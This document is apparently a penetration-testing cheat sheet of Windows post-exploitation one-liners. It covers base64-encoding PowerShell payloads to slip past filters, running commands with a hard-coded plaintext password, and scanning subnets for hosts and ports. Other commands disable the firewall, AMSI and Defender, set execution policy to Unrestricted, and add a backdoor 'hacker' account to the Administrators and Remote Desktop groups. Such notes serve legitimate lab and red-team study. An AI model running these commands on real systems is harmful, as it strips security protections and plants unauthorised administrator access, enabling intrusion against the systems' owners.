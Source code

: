 ```yaml
---
icon: code-square
---
```


# Windows Tricks

## PowerShell encoded base64
Create a base64 payload to avoid bad characters.
```bash
# Create the command to PowerShell execute
$ echo -n 'ping -n 2 10.10.14.2' | iconv -t utf-16le | base64 -w 0
cABpAG4AZwAgAC0AbgAgADIAIAAxADAALgAxADAALgAxADQALgAyAA==

# Run PowerShell with Encoded flag
Payload: cmd /c powershell -nop -enc cABpAG4AZwAgAC0AbgAgADIAIAAxADAALgAxADAALgAxADQALgAyAA==

```

## Run command as User (with creds)

```powershell
$pass = ConvertTo-SecureString "aliceishere" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("disco\\Alice", $pass)
Invoke-Command -ComputerName disco -Credential $cred -ScriptBlock {whoami}
```

## List running process with args

```powershell
WMIC path win32_process get Caption,Processid,Commandline
```

## Scan for hosts and open ports in subnet

```bash
# Scan for Hosts in Subnet
PS > 1..254 | ForEach-Object {Test-Connection -ComputerName "172.16.2.$_" -Count 1 -ErrorAction SilentlyContinue}

# Scan for open Ports
PS > 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("172.16.2.101",$)) "Port $ is open!"} 2>$null
```

## PowerShell

```powershell
# PowerShell Directory
c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

# FIX THE VARIABLE PATH
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

## Search for files

```powershell
Get-Childitem –Path C:\ -Include *filetosearch* -Recurse -ErrorAction SilentlyContinue
```

## Windows Security
### Disable Firewall

```powershell
NetSh Advfirewall set allprofiles state off
```

### Disable AMSI

```PowerShell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse
```

### Disable Defender

```Powershell
sc stop WinDefend
```

### Execution Policy

```powershell
Set-ExecutionPolicy Unrestricted
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

## Add a RDP user

```powershell
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
```
